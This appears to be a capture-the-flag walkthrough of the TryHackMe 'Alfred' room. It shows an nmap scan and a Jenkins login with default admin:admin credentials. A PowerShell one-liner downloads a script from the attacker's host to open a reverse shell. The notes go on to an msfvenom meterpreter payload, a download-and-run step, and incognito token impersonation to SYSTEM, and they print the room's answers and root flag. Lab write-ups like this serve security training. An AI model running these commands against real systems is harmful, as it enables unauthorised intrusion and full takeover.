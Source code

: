 # Nmap scan
```bash
┌──(kali㉿kali)-[~/thm/subs/alfred]
└─$sudo nmap -sSVC 10.10.254
# Nmap 7.91 scan initiated Sat Apr  3 09:28:57 2021 as: nmap -sSVC -o nmap_scan -Pn 10.10.254.83
Nmap scan report for 10.10.254.83
Host is up (0.37s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2021-04-02T12:52:01
|_Not valid after:  2021-10-02T12:52:01
|_ssl-date: 2021-04-03T13:54:53+00:00; -1s from scanner time.
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  3 09:54:54 2021 -- 1 IP address (1 host up) scanned in 1556.86 seconds
```
![[Pasted image 20210403085705.png]]
## Port 8080 enum
![[Pasted image 20210403092511.png]]
Task 1.1 -> How many ports are open? (TCP only)
Ans -> 3
Task 1.2 -> What is the username and password for the log in panel(in the format username:password)
Ans -> 

|admin|admin|
|--|--|

Task 1.3 ->What is the user.txt flag?
Ans -> 
http://10.10.254.83:8080/job/project/configure
Change the command to the exploit given below
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.169.1:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.169.1 -Port 4444
```
# Priv esc
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```
Transfer shell
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.169.1:8000/shell.exe','shell.exe')"
```
Lanch Exploit
```bash
Start-Process "shell.exe"
```
Metasploit 
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.9.169.1
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.169.1:4444 
[*] Sending stage (175174 bytes) to 10.10.85.144
[*] Meterpreter session 1 opened (10.9.169.1:4444 -> 10.10.85.144:49213) at 2021-04-04 07:08:28 -0400

meterpreter >
```

Task 2 -> What is the final size of the exe payload that you generated?
Ans -> 73802
Shell catched.
# load tokens
```bash
meterpreter > migrate 668
[*] Migrating from 2276 to 668...
[*] Migration completed successfully.
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -g

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\AudioSrv
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CryptSvc
NT SERVICE\CscService
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\Dnscache
NT SERVICE\DPS
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\FontCache
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MMCSS
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\RpcEptMapper
NT SERVICE\RpcSs
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\sppsvc
NT SERVICE\sppuinotify
NT SERVICE\swprv
NT SERVICE\TermService
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WdiSystemHost
NT SERVICE\WinDefend
NT SERVICE\Winmgmt
NT SERVICE\wscsvc
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\ShellHWDetection
NT SERVICE\WinHttpAutoProxySvc

meterpreter >
```
# Escalation
```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
# Root user
```bash
C:\Windows\System32\config>type root.txt
type root.txt
dff0f748678f280250f25a45b8046b4a
```
